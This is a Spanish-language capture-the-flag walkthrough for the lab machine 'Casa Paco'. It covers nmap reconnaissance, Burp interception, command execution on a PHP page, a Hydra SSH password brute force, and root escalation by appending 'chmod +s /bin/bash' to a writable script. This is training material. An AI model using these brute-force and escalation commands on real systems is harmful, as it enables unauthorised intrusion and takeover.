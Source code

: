 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Casa Paco

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.60
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1024).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.60 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1025).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH y** el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.60
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (1026).png" alt=""><figcaption></figcaption></figure>

Miramos a ver que contiene el puerto 80 por si encontramos alguna información relevante pero hay que añadir el dominio **casapaco.thl**.

<figure><img src="../../.gitbook/assets/image (1027).png" alt=""><figcaption></figcaption></figure>

Revisando la página encontramos esto interesante.

<figure><img src="../../.gitbook/assets/image (1029).png" alt=""><figcaption></figcaption></figure>

Interceptamos con **Burpsuite** peticiones.

<figure><img src="../../.gitbook/assets/image (1030).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Dado que hemos identificado otra página, **/llevar1.php**, intentaremos ejecutar comandos en ella para determinar si proporciona más información que la página anterior.

<figure><img src="../../.gitbook/assets/image (1031).png" alt=""><figcaption></figcaption></figure>

Descubrimos el usuario pacogerente por lo que realizamos fuerza bruta con Hydra.

```bash
hydra -l pacogerente -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.60 
```

Iniciamos sesión con esas credenciales.

<figure><img src="../../.gitbook/assets/image (1032).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.&#x20;

Tenemos un archivo que se está ejecutando por lo que cambiamos el contenido para poder manipular y ser root.

```bash
echo 'chmod +s /bin/bash' >> /home/pacogerente/fabada.sh
/bin/bash -p
```

<figure><img src="../../.gitbook/assets/image (1033).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.&#x20;

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
